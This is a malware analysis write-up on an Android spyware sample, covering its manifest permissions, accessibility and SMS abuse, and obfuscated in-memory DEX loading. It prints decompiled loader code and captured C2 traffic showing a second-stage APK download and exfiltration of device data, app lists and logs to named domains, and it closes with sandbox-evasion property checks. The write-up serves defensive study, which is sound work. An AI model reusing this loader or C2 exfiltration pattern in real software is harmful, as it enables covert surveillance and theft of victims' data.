

## Sample details

- SHA256 hash: 87a3845edcf58b9daacb49a9b8d7a966ad6d1ccceff6d82b6b1e8db1486a9921
- MD5 hash: 8b8c849a57c6f13fb4e714f0cc70f445
- https://bazaar.abuse.ch/sample/87a3845edcf58b9daacb49a9b8d7a966ad6d1ccceff6d82b6b1e8db1486a9921/

## Indicators of Compromise

Check If traffic is observed to the following C2 addresses or the following files exist in the filesystem:

- `/sdcard/.am`
- `/data/app/cihb.hhsey-0hjjV8WkB4t7EIrj_ULqOQ==/base.apk=cihb.hhsey`
- `http://andmon.name`
- `http://prog-money.com`
- `http://anmon.name`
- `https://anmon.ru`

## AndroidManifest.xml

The Android manifest file provides information such as activities, services, broadcast receivers, and content providers of an android application. It's the file that will give us a first overview of the application under test.

#### Package name

The package name will help us trace the application's code in the decompiled `classes.dex` file.

```xml
<manifest ... package="cihb.hhsey" ...>  
```

The application's private data will reside in `/data/data/cihb.hhsey`.


#### Application

```xml
<application android:label="@string/app_name" 
	android:icon="@drawable/ic_launcher1" 
	android:sharedUserId="android.uid.system"
	android:allowBackup="true"
	android:largeHeap="true"
	android:supportsRtl="true" 
	android:requestLegacyExternalStorage="true">
```

The name of the application is included in the `resources/res/values/strings.xml` to be **System platform**.

The icon of the application is defined in the `AndroidManifest.xml` as `android:icon="@drawable/ic_launcher1"` and it is located at `resources/res/drawable-*/ic_launcher1.png`. 


The application also uses `sharedUserId="android.uid.system"`. This implies that it tries to install itself as a system application `uid = 1000` - which doesn't really makes sense to me now as it must be signed with the same certificate as the rest of the system apps.

`allowBackup="true"` is also included in the manifest. This might allow the malware to persist across a backup and restore operation.

Of course, it also uses `requestLegacyExternalStorage="true"` in order to opt-out scoped storage and be able to access all files in external storage. It should be noted that applications running with the same shared user id, run under the same process and can access each other's data.

#### Permissions

```xml
<permission android:name="android.monitor.permission.ANDROID_MONITOR_CHECKER" android:protectionLevel="signature"/>
```

```xml
<uses-permission android:name="android.permission.ACCESS_SUPERUSER"/>  
<uses-permission android:name="android.permission.RECEIVE_BOOT_COMPLETED"/>  
<uses-permission android:name="android.permission.QUICKBOOT_POWERON"/>  
<uses-permission android:name="android.permission.RECEIVE_SMS"/>  
<uses-permission android:name="android.permission.RECEIVE_MMS"/>  
<uses-permission android:name="android.permission.READ_SMS"/>  
<uses-permission android:name="android.permission.WRITE_SMS"/>  
<uses-permission android:name="android.permission.BROADCAST_SMS"/>  
<uses-permission android:name="android.permission.CALL_PHONE"/>  
<uses-permission android:name="android.permission.PROCESS_INCOMING_CALLS"/>  
<uses-permission android:name="android.permission.CALL_PRIVILEGED"/>  
<uses-permission android:name="android.permission.FOREGROUND_SERVICE"/>  
<uses-permission android:name="android.permission.READ_CALL_LOG"/>  
<uses-permission android:name="android.permission.WRITE_CALL_LOG"/>  
<uses-permission android:name="android.permission.ANSWER_PHONE_CALLS"/>  
<uses-permission android:name="android.permission.READ_LOGS"/>  
<uses-permission android:name="android.permission.GET_ACCOUNTS"/>  
<uses-permission android:name="com.android.alarm.permission.SET_ALARM"/>  
<uses-permission android:name="android.permission.CAPTURE_AUDIO_HOTWORD"/>  
<uses-permission android:name="android.permission.GET_INTENT_SENDER_INTENT"/>  
<uses-permission android:name="android.permission.WAKE_LOCK"/>  
<uses-permission android:name="android.permission.UPDATE_LOCK"/>  
<uses-permission android:name="android.permission.DISAE_KEYGUARD"/>  
<uses-permission android:name="android.permission.READ_PHONE_STATE"/>  
<uses-permission android:name="android.permission.MODIFY_PHONE_STATE"/>  
<uses-permission android:name="android.permission.READ_PHONE_NUMBERS"/>  
<uses-permission android:name="android.permission.READ_CONTACTS"/>  
<uses-permission android:name="android.permission.ACCESS_FINE_LOCATION"/>  
<uses-permission android:name="android.permission.ACCESS_COARSE_LOCATION"/>  
<uses-permission android:name="android.permission.ACCESS_MOCK_LOCATION"/>  
<uses-permission android:name="android.permission.ACCESS_LOCATION_EXTRA_COMMANDS"/>  
<uses-permission android:name="android.permission.ACCESS_BACKGROUND_LOCATION"/>  
<uses-permission android:name="android.permission.INSTALL_LOCATION_PROVIDER"/>  
<uses-permission android:name="android.permission.CONTROL_LOCATION_UPDATES"/>  
<uses-permission android:name="android.permission.ACCESS_NETWORK_STATE"/>  
<uses-permission android:name="android.permission.ACCESS_WIFI_STATE"/>  
<uses-permission android:name="android.permission.CHANGE_WIFI_STATE"/>  
<uses-permission android:name="android.permission.BATTERY_STATS"/>  
<uses-permission android:name="android.permission.PROCESS_OUTGOING_CALLS"/>  
<uses-permission android:name="android.permission.BLUETOOTH"/>  
<uses-permission android:name="android.permission.INTERNET"/>  
<uses-permission android:name="android.permission.CHANGE_NETWORK_STATE"/>  
<uses-permission android:name="android.permission.UPDATE_DEVICE_STATS"/>  
<uses-permission android:name="android.permission.CAMERA"/>  
<uses-permission android:name="android.permission.CAPTURE_VIDEO_OUTPUT"/>  
<uses-permission android:name="android.permission.CAPTURE_AUDIO_OUTPUT"/>  
<uses-permission android:name="android.permission.CAPTURE_SECURE_VIDEO_OUTPUT"/>  
<uses-permission android:name="android.permission.RECORD_VIDEO"/>  
<uses-permission android:name="android.permission.RECORD_AUDIO"/>  
<uses-permission android:name="android.permission.READ_EXTERNAL_STORAGE"/>  
<uses-permission android:name="android.permission.WRITE_EXTERNAL_STORAGE"/>  
<uses-permission android:name="android.permission.WRITE_MEDIA_STORAGE"/>  
<uses-permission android:name="android.permission.MANAGE_EXTERNAL_STORAGE"/>  
<uses-permission android:name="android.permission.SYSTEM_ALERT_WINDOW"/>  
<uses-permission android:name="android.permission.USE_FULL_SCREEN_INTENT"/>  
<uses-permission android:name="android.permission.MODIFY_AUDIO_SETTINGS"/>  
<uses-permission android:name="android.permission.VIBRATE"/>  
<uses-permission android:name="android.permission.WRITE_SETTINGS"/>  
<uses-permission android:name="android.permission.WRITE_SECURE_SETTINGS"/>  
<uses-permission android:name="android.permission.SET_PROCESS_LIMIT"/>  
<uses-permission android:name="android.permission.INSTALL_PACKAGES"/>  
<uses-permission android:name="android.permission.RESTART_PACKAGES"/>  
<uses-permission android:name="android.permission.DELETE_PACKAGES"/>  
<uses-permission android:name="android.permission.REQUEST_INSTALL_PACKAGES"/>  
<uses-permission android:name="android.permission.QUERY_ALL_PACKAGES"/>  
<uses-permission android:name="android.permission.START_ACTIVITIES_FROM_BACKGROUND"/>  
<uses-permission android:name="android.permission.GET_TASKS"/>  
<uses-permission android:name="android.permission.PACKAGE_USAGE_STATS"/>  
<uses-permission android:name="android.permission.ACCESS_SURFACE_FLINGER"/>  
<uses-permission android:name="android.permission.READ_FRAME_BUFFER"/>  
<uses-permission android:name="android.permission.REQUEST_IGNORE_BATTERY_OPTIMIZATIONS"/>  
<uses-permission android:name="android.permission.MANAGE_DEVICE_ADMINS"/>  
<uses-permission android:name="android.permission.INTERACT_ACROSS_USERS" android:protectionLevel="signature"/>  
<uses-permission android:name="android.permission.INTERACT_ACROSS_USERS_FULL" android:protectionLevel="signature"/>  
<uses-permission android:name="oppo.permission.OPPO_COMPONENT_SAFE"/>  
<uses-permission android:name="com.huawei.permission.external_app_settings.USE_COMPONENT"/>  
<uses-permission android:name="android.monitor.permission.ANDROID_MONITOR_CHECKER"/>
```

The application requests a ton of permissions.

#### MainActivity

We locate the main activity, which is launched when the user clicks on the application:

```xml
<activity android:theme="@android:style/Theme.Translucent.NoTitleBar" android:name="cihb.hhsey.VaxdhkzowyXbmy">  
	<intent-filter>  
		<action android:name="android.intent.action.MAIN"/>  
		<category android:name="android.intent.category.LAUNCHER"/>  
	</intent-filter>  
</activity>
```

#### Services

A Service is an application component that can perform long-running operations in the background.

- The `android:name` attribute specifies the class name of the service.
- Due to `exported="true"` it allows other applications to start the service.
- A service runs in the same process as the application in which it is declared and in the main thread of that application by default.

```xml
<service android:name="cihb.hhsey.Exttjdmeaifyx" android:enabled="true" android:exported="true" android:foregroundServiceType="microphone|camera|location">  
	<intent-filter>  
		<action android:name="com.program.intent.android.monitor.service"/>  
	</intent-filter>  
</service>
```

**NotificationListener**

```xml
<service android:label="@string/app_name" android:name="cihb.hhsey.Disuif" android:permission="android.permission.BIND_NOTIFICATION_LISTENER_SERVICE">
	<intent-filter>
		<action android:name="android.service.notification.NotificationListenerService"/>
	</intent-filter>
</service>
```

**Accessibility Service**

```xml
<service android:name="cihb.hhsey.qnBoHD1Wg" android:permission="android.permission.BIND_ACCESSIBILITY_SERVICE">  
	<intent-filter>  
		<action android:name="android.accessibilityservice.AccessibilityService"/>  
	</intent-filter>  
	<meta-data android:name="android.accessibilityservice" android:resource="@xml/accessibilityservice"/>  
</service>
```

In `res/xml/accessibilityservice.xml`:

```xml
<accessibility-service ...
	android:description="@string/accessibility_service_description"
	android:accessibilityEventTypes="typeAllMask" 
	android:accessibilityFeedbackType="feedbackAllMask" 
	android:notificationTimeout="70"android:accessibilityFlags="flagRetrieveInteractiveWindows|flagRequestFilterKeyEvents|flagReportViewIds|flagRequestEnhancedWebAccessibility|flagIncludeNotImportantViews|flagDefault"
	android:canRetrieveWindowContent="true"/>
```

#### Broadcast Receivers

**Reboot**

This is a mechanism used by the malware for persistence. The intent `BOOT_COMPLETED` is broadcasted after the Android OS has been loaded. The malware, will receive the intent which will invoke the `onReceive()` callback of `cihb.hhsey.wxpdtZoEujRNL` class.

```xml
<receiver android:name="cihb.hhsey.wxpdtZoEujRNL" android:enabled="true" android:exported="true">  
	<intent-filter>  
		<action android:name="android.intent.action.BOOT_COMPLETED"/>  
		<action android:name="android.intent.action.QUICKBOOT_POWERON"/>  
		<action android:name="com.htc.intent.action.QUICKBOOT_POWERON"/>  
		<action android:name="android.intent.action.REBOOT"/>  
		<category android:name="android.intent.category.DEFAULT"/>  
	</intent-filter>  
</receiver>
```

**SMS**

It is common to see malware abuse the `priority` attribute in order to get prioritized in the order of receiving the broadcast intent from the system. In this case, it needs to sniff all incoming SMS.

```xml
<receiver android:name="cihb.hhsey.SmsReceiver" android:enabled="true" android:exported="true">  
	<intent-filter android:priority="2147483647">  
		<action android:name="android.provider.Telephony.SMS_RECEIVED"/>  
	</intent-filter>  
</receiver>
```

**Device Admin**

```xml
<receiver android:name="cihb.hhsey.mtxbbpn7" android:permission="android.permission.BIND_DEVICE_ADMIN">  
	<meta-data android:name="android.app.device_admin" android:resource="@xml/device_admin"/>  
	<intent-filter>  
		<action android:name="android.app.action.DEVICE_ADMIN_ENABLED"/>  
		<action android:name="android.app.action.DEVICE_ADMIN_DISABLE_REQUESTED"/>  
		<action android:name="android.app.action.DEVICE_ADMIN_DISABLED"/>  
	</intent-filter>  
</receiver>
```

In `res/xml/device_admin.xml`:

```xml
<device-admin xmlns:android="http://schemas.android.com/apk/res/android">  
	<uses-policies>  
		<limit-password/>  
		<reset-password/>  
		<force-lock/>  
	</uses-policies>  
</device-admin>
```

...

## Main Activity

- `android.intennt.action.MAIN`:

Class `cihb.hhsey.VaxdhkzowyXbmy` is the main entrypoint to the malicious application and should be listed as a launcher (due to `android.intent.category.LAUNCHER`).


File: `MainActivity.java`

```java
public class MainActivity extends Activity {
	// get application context
	Context appCtx = getApplicationContext();  
	// create intent for MonitorService
	Intent intent = new Intent(appCtx, MonitorService.class);  
	// send "ProgOpen"
	intent.putExtra("ProgOpen", 1);
	// start MonitorService => onStartCommand event will fire
	startService(intent);  
	if (MonitorService.qSkgy == null) {  
		PackageManager pm = appCtx.getPackageManager();
		// dynamically disable component: COMPONENT_ENABLED_STATE_DISABLED = 2
		// don't kill the app containing the component: DONT_KILL_APP = 1
		pm.setComponentEnabledSetting(getComponentName(), COMPONENT_ENABLED_STATE_DISABLED, DONT_KILL_APP);
```

File: `MonitorService.java`

```java
@Override // android.app.Service  
public int onStartCommand(Intent whe, int fmi, int kQawz65) {  
	String nxxnx;  
	jsb = true;  
	if (whe == null || this.mfsk) {  
		if ((fmi & 1) == 1) {  
			nxxnx = "START_FLAG_REDELIVERY";  
		} else if ((fmi & 2) == 2) {  
			nxxnx = "START_FLAG_RETRY";  
		} else {  
			nxxnx = String.valueOf(fmi);  
		}  
		[...] 
		return 1;  
	}  
	return this.imxzmx.Ssld(whe, true);  
}
```

**Service Lifecycle**

When `startService()` is invoked, the system will retrieve the service class, instantiate and call its `onCreate()` callback before calling `onStartCommand()` method.

Using `startService()` overrides the default service lifetime that is managed by `bindService()`. it requires the service to remain running until `stopService()` is called, regardless of whether any clients are connected to it.

**String Decryption**

The malware uses a simple algorithm to convert an array of numbers to their string representation.

```java
class TransportMediator {
  public static final int KEYCODE_MEDIA_PLAY = 126;
  public static final int KEYCODE_MEDIA_PAUSE = 127;
  public static final int KEYCODE_MEDIA_RECORD = 130;
};

class Main {
  public static void main(String args[]) {
	  int arr[] = {
		6, 97, 74, 107, TransportMediator.KEYCODE_MEDIA_PLAY, 83, 103, 111, 116, 83, 103, 116, 103, 109, 107, 120, 99, 38, 73, 120, 107, 103, 122, 107, 79, 116, 121, 122, 103, 116, 105, 107, 38, 79, 116, 83, 107, 115, 117, 120, TransportMediator.KEYCODE_MEDIA_PAUSE, 38
	  };
	  
    System.out.println(decode_intArray(arr)); 
  }
  public static String decode_intArray(int... arr) {
    int l = arr.length;
    if (l < 2) {
        return null;
    }
    char[] wZbvg = new char[l - 1];
    int k = arr[0];
    for (int i = 1; i < l; i++) {
        wZbvg[i - 1] = (char) (((arr[i] + 128) - (k % 128)) % 128);
    }
    return String.valueOf(wZbvg);
    }
}
```

- `AssetManager` : Provides access to an application's raw asset files.


- With the help of `AndroidManifest.xml` we can give descriptive names to classes according to the intents they are defined to handle.

`InMemoryDexClassLoader(ByteBuffer dexBuffer, ClassLoader parent)`
Creates a new in-memory DEX class loader. 

```
MainActivity => MonitorService.onCreate => DexMainManager.$init => FileUtils.CheckDirectory 
```

The malware deletes the decrypted DEX file after loading it into memory.



```java
/* renamed from: Zpcc */
private void load_md_dex(boolean yWpe, boolean gQxpg) {  
	String externalStorageExtractPath = StringUtils.strConcat(this.externalStoragePath, "/", this.md_main_md);  
	int iugixkv6 = 0;  
	if (this.bxved == null) {  
			createInstanceInMemory();  
	}  
}
```

```java
/* renamed from: ZqcyvWgmxad3 */  
private void createInstanceInMemory() {
	[...]
	String dexPathExt = StringUtils.strConcat(this.externalStoragePath, "/", this.md_main_md);
	[...]
	String dexPathLocal = StringUtils.strConcat(this.localStoragePath, "/", this.md_main_md);
	if (MbFileUtils.IsFileAccesible(dexPathExt)) {  
		MbFileUtils.deleteFile(dexPathExt, dexPathLocal, 10);  
	}
	if (MbFileUtils.IsFileAccesible(dexPathLocal)) {
		[...]
		MbFileUtils.RemoveFile(dexPathLocal);
	}
	[...]
}
```

```java
/* renamed from: RawgqnHman */  
private static Class<?> oloadClass(String dexPath, String gowlebs, ClassLoader parentClass, String classToLoad) throws ClassNotFoundException {  
	return new baseDexClassLoader(dexPath, gowlebs, parentClass).loadClass(classToLoad);  
}
```

```java
/* renamed from: cihb.hhsey.PfcbicbnDiuztzr84$cl */  
/* loaded from: classes.dex */  
private static class baseDexClassLoader extends BaseDexClassLoader {  
	public baseDexClassLoader(String p, String d, ClassLoader c) {  
		super(p, new File(d), null, c);  
	}  
}
```

```java
/* renamed from: Zitsj */
private boolean loadFile(String filename, String ulqf1) throws ClassNotFoundException, IOException, InstantiationException, IllegalAccessException, ExceptionInInitializerError, SecurityException {  
	if (Build.VERSION.SDK_INT < 26) {  
		return false;  
	}  
	return create_dexbuffer(MbFileUtils.LoadFromFile(filename, 10, 1024), ulqf1);  
}
```

```java
/* renamed from: Zitsj */
private boolean create_dexbuffer(byte[] dexPayload, String eIgzxfnc7) throws InstantiationException, IllegalAccessException, ExceptionInInitializerError, SecurityException {  
	ByteBuffer bytebuffer = ByteBuffer.allocate(dexPayload.length);  
	bytebuffer.put(dexPayload);  
	bytebuffer.position(0);  
	boolean bHow = load_dex_1(bytebuffer, eIgzxfnc7);  
	bytebuffer.clear();  
	return bHow;  
}
```

```java
/* renamed from: LlqwqrOemxtv */
private boolean load_dex_1(ByteBuffer dexBuffer, String aPxb0) throws InstantiationException, IllegalAccessException, ExceptionInInitializerError, SecurityException {  
	ClassLoader pmemoryDexLoad = memoryDexLoad(dexBuffer, getClass().getClassLoader());  
	Object c = CggARWZ1e5q1G.Neljeyab6(pmemoryDexLoad, aPxb0);  
	if (c != null) {  
		HucdsbOds((Class) c);  
		return true;  
	}  
	return false;  
}
```

```java
/* renamed from: BijoCbvl84 */
private ClassLoader memoryDexLoad(ByteBuffer dexBuffer, ClassLoader parent) {  
	return new InMemoryDexClassLoader(dexBuffer, parent);  
}
```

> Context: Interface to global information about an application environment. This is an abstract class whose implementation is provided by the Android system. It allows access to application-specific resources and classes, as well as up-calls for application-level operations such as launching activities, broadcasting and receiving intents, etc.


## Dynamic Analysis

Install the application and observe the network traffic using BurpSuite proxy.


The malware communicates with the C2 and sends the following requests:

```http
GET /am.html HTTP/1.1
User-Agent: AM/20221001
Connection: close
Content-length: 0
Content-Type: application/json; charset=utf8
Accept-Encoding: gzip, deflate
Host: prog-money.com

HTTP/1.1 200 OK
Date: Sun, 06 Nov 2022 15:35:02 GMT
Server: Apache
Upgrade: h2,h2c
Connection: Upgrade, close
Last-Modified: Wed, 18 May 2022 15:04:36 GMT
Accept-Ranges: bytes
Content-Length: 17
Content-Type: text/html

http://anmon.name
```

```http
GET /monitor_checker_link.php?ver=20221001 HTTP/1.1
User-Agent: AM/20221001
Connection: close
Content-length: 0
Content-Type: application/json; charset=utf8
Accept-Encoding: gzip, deflate
Host: anmon.name

HTTP/1.1 200 OK
Date: Sun, 06 Nov 2022 15:35:03 GMT
Server: Apache
X-Powered-By: PHP/5.3.29
Upgrade: h2,h2c
Connection: Upgrade, close
Content-Type: text/html
Content-Length: 23

/files/com.amon/MCh.apk
```

```http
POST /common/api.php?tp=SendData&type=0&count=0 HTTP/1.1
User-Agent: AM/20221001
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 76
Host: anmon.name
Accept-Encoding: gzip, deflate

act=check_login&access=3b2f38d2b6209573&secure_id=3b2f38d2b6209573&locale=en

HTTP/1.1 200 OK
Date: Sun, 06 Nov 2022 15:35:04 GMT
Server: Apache
X-Powered-By: PHP/5.3.29
Upgrade: h2,h2c
Connection: Upgrade, close
Content-Type: text/html
Content-Length: 75

{"error":true,"error_msg":"Device not attached","time_ms":0.00159597396851}
```

```http
POST /files/com.amon/MCh.apk HTTP/1.1
User-Agent: AM/20221001
Connection: close
Content-Type: application/x-www-form-urlencoded
Host: anmon.name
Accept-Encoding: gzip, deflate
Content-Length: 0

HTTP/1.1 200 OK
Date: Sun, 06 Nov 2022 15:35:04 GMT
Server: Apache
Upgrade: h2,h2c
Connection: Upgrade, close
Last-Modified: Sat, 17 Apr 2021 06:50:49 GMT
Accept-Ranges: bytes
Content-Length: 64649
Content-Type: application/vnd.android.package-archive

PK[...]
```


```http
POST /common/get-settings.php HTTP/1.1
User-Agent: AM/20221001
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 1389
Host: anmon.name
Accept-Encoding: gzip, deflate

act=settings&access=3b2f38d2b6209573&battery_level=100.0&battery_plug=0&battery_status=4&net_class=WIFI&net_strength=4&start_prog=1667748898&screen_on=0&screen_off=0&date_time_now=11.06.2022 05:35&build=20221001&sdk=29&mfr=google&prog_ver=1013&location_enabled=passive|gps|network|&is_root=1&is_sys=0&mem=5527&get_mail=1&mail_upd=20171101&get_viber_inform=1&permissions=-1&get_settings=1&cm=0&count=2&lang=en&country=US&app_list=Y29tLmdvb2dsZS5hbmRyb2lkLnlvdXR1YmUsWW91VHViZXxjb20uZ29vZ2xlLmFuZHJvaWQuZ29vZ2xlcXVpY2tzZWFyY2hib3gsR29vZ2xlfGNvbS5hbmRyb2lkLmRvY3VtZW50c3VpLEZpbGVzfGNvbS5nb29nbGUuYW5kcm9pZC5hcHBzLm1lc3NhZ2luZyxNZXNzYWdlc3xjb20uYW5kcm9pZC5jb250YWN0cyxDb250YWN0c3xjb20uZ29vZ2xlLmFuZHJvaWQuZGVza2Nsb2NrLENsb2NrfGNvbS5nb29nbGUuYW5kcm9pZC5nbSxHbWFpbHxjb20uZ29vZ2xlLmFuZHJvaWQuYW5nbGUsQW5kcm9pZCBTeXN0ZW0gQW5nbGV8Y29tLmdvb2dsZS5hbmRyb2lkLm11c2ljLEdvb2dsZSBQbGF5IE11c2ljfGNvbS5nb29nbGUuYW5kcm9pZC5hcHBzLmRvY3MsRHJpdmV8Y29tLmdvb2dsZS5hbmRyb2lkLmFwcHMubWFwcyxNYXBzfGNvbS5hbmRyb2lkLmNocm9tZSxDaHJvbWV8Y29tLmFuZHJvaWQuZGlhbGVyLFBob25lfGNvbS5nb29nbGUuYW5kcm9pZC52aWRlb3MsR29vZ2xlIFBsYXkgTW92aWVzICYgVFZ8Y29tLnRvcGpvaG53dS5tYWdpc2ssTWFnaXNrfGNvbS5nb29nbGUuYW5kcm9pZC5hcHBzLnBob3RvcyxQaG90b3N8Y29tLmdvb2dsZS5hbmRyb2lkLmNhbGVuZGFyLENhbGVuZGFyfGNvbS5hbmRyb2lkLnNldHRpbmdzLFNldHRpbmdzfGNvbS5nb29nbGUuYW5kcm9pZC5hcHBzLndhbGxwYXBlcixXYWxscGFwZXJzfGNvbS5hbmRyb2lkLnRyYWNldXIsU3lzdGVtIFRyYWNpbmd8

HTTP/1.1 200 OK
Date: Sun, 06 Nov 2022 15:35:37 GMT
Server: Apache
X-Powered-By: PHP/5.3.29
Upgrade: h2,h2c
Connection: Upgrade, close
Content-Type: text/html
Content-Length: 133

{"msg":"Device not found","access":"3b2f38d2b6209573","active":false,"get_access_again":true,"error":false,"time_ms":0.0810370445251}
```

The `app_list` parameter contains a list of installed packages encoded using base64:

```
com.google.android.youtube,YouTube|com.google.android.googlequicksearchbox,Google|com.android.documentsui,Files|com.google.android.apps.messaging,Messages|com.android.contacts,Contacts|com.google.android.deskclock,Clock|com.google.android.gm,Gmail|
```

```http
GET /file-log.html HTTP/1.1
User-Agent: AM/20221001
Connection: close
Content-length: 0
Content-Type: application/json; charset=utf8
Accept-Encoding: gzip, deflate
Host: prog-money.com


HTTP/1.1 200 OK
Date: Sun, 06 Nov 2022 15:35:07 GMT
Server: Apache
Upgrade: h2,h2c
Connection: Upgrade, close
Last-Modified: Wed, 18 May 2022 15:04:36 GMT
Accept-Ranges: bytes
Content-Length: 26
Content-Type: text/html

http://andmon.name/log.php
```

```http
POST /log.php HTTP/1.1
User-Agent: AM/20221001
Connection: close
ENCTYPE: multipart/form-data
Content-Type: multipart/form-data; boundary=N7RpqbQT9U8b
Host: andmon.name
Accept-Encoding: gzip, deflate
Content-Length: 1095

--N7RpqbQT9U8b
Content-Disposition: form-data; name="act"

send_log
--N7RpqbQT9U8b
Content-Disposition: form-data; name="access"

3b2f38d2b6209573
--N7RpqbQT9U8b
Content-Disposition: form-data; name="prog_ver"

1013
--N7RpqbQT9U8b
Content-Disposition: form-data; name="build"

20221001
--N7RpqbQT9U8b
Content-Disposition: form-data; name="chunk_id"

3b2f38d2b6209573_1667748906932
--N7RpqbQT9U8b
Content-Disposition: form-data; name="chunk_start"

0
--N7RpqbQT9U8b
Content-Disposition: form-data; name="chunk_length"

217
--N7RpqbQT9U8b
Content-Disposition: form-data; name="file_size"

217
--N7RpqbQT9U8b
Content-Disposition: form-data; name="file_name"

%2Fstorage%2Femulated%2F0%2F.am%2Flog_1667748898654.txt.zip
--N7RpqbQT9U8b
Content-Disposition: form-data; name="UploadFile";filename="log_1667748898654.txt.zip"

PKc�fUlog_1667748898654.txt30�34�3202R04�26�2���236���M�̳��R��2��Rb��݃}�\��PKw�>==PKc�fUw�>==log_1667748898654.txtPKC�
--N7RpqbQT9U8b--


HTTP/1.1 200 OK
Date: Sun, 06 Nov 2022 15:35:09 GMT
Server: Apache/2
Upgrade: h2,h2c
Connection: Upgrade, close
X-Powered-By: PHP/5.6.31
Vary: Accept-Encoding,User-Agent
Content-Length: 101
Content-Type: text/html; charset=UTF-8

{"file_size":217,"file_name":"log_1667748898654.txt.zip","error":false,"time_ms":0.00061607360839844}
```

```java
public static String GetProgramPath() {  
	if (g_program_path == null) {  
		g_program_path = String.valueOf(Environment.getExternalStorageDirectory().getAbsolutePath()) + "/.am/";  
	}  
	return g_program_path;  
}

public static void StartLogFile() {  
	File file = new File(GetProgramPath());  
	if (file.exists()) {  
		File file2 = new File(file, "log_checker.txt");  
		if (!file2.exists()) {  
			return;  
		}  
		file2.renameTo(new File(file, "log_checker_" + String.valueOf(getTimeMs()) + ".txt"));  
	}  
}
```


Logs collected:


The `SettingsDB` sqlite3 database contains the following tables:

```
accessibility_cmds
android_metadata
apps
apps_tmp
calls
cams
contacts
contacts_tmp1
device_info
dex_table
gps
info
mail_params
mess
notify
process_history
settings
siminfo
sms
sounds
viber_inform_params
viber_inform_sender_params
web_history
```

Something I didn't know is that the emulator has a SIM card. This and other information like IMEI could be used by threat actors in order to implement Sandbox Evasion checks. One can find such values using the `adb shell getprop`  command.

Some examples include:

- `ro.vendor.build.fingerprint`
- `ro.serialno`
- `ro.product.vendor.name`
- `ro.product.vendor.model`
- `ro.product.vendor.device`
- `ro.build.product`
- `gsm.operator.numeric`


## References

- https://android.googlesource.com/platform/frameworks/base/+/refs/heads/master